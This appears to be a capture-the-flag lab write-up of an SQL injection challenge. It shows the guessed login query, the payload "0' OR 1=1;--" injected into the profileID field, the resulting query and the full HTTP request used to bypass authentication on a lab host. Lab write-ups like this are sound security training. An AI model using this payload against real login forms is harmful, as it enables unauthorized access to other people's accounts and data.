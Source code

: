 # Challenge 2: Input Box String

![Pasted image 20210803160635](Pasted%20image%2020210803160635.png)

This challenge is comprised of a login form asking for a user ID and a password. Since the title of the challenge is "Input Box String," it appears the userID parameter is the target parameter and that is probably handled as a string in the backend SQL query.

The backend SQL query probably looks something like this:

```sql
SELECT profileID FROM profiles WHERE profileID = '$profileID' AND password = '$PASSWORD_HASH';
```

If it returns exactly one row, it grants the user an authentication cookie that allows them to access the application.

The injection of the `profileID` parameter looks like:

```txt
0' OR 1=1;--
```

Resulting in the following SQL query:

```sql
SELECT profileID FROM profiles WHERE profileID = '0' OR 1=1;-- ' AND password = 'd74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1'; -- hash of 'pass'
```

The HTTP request:

```http
GET /sesqli2/login?profileID=0'+OR+1=1;--%20&password=pass HTTP/1.1
Host: 10.10.240.237:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.240.237:5000/sesqli2/login?profileID=0&password=pass%27+OR+1%3D1%3B+--
Cookie: session=.eJxFj8GKwzAMRP9F5xys2I6dnJeFXnrbc1AVGcy6SWo3LCX03-vQwt40b4Q0s8OV4kzrOt42yQ8YAqUiDRQptxRxnOhOMOzwc_qCARuQup5gAGhgpqvU6TvTzEssB4n8e37TqlYqZV3y_Zyr9p2yrbUKjfLmY_4teaqWYa-DU0xBE3JPbNi4qe2NFRWcD27Slhz3aMgLeuw0sbTaE15EOrwc1_ISYpIjI6CqoFCio01r1fO_zFYkj7H-xOcLcMxLdw.YQmjXA.qSZ6nBYhslfUn-2QFw573zIh39k
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

![Pasted image 20210803162801](Pasted%20image%2020210803162801.png)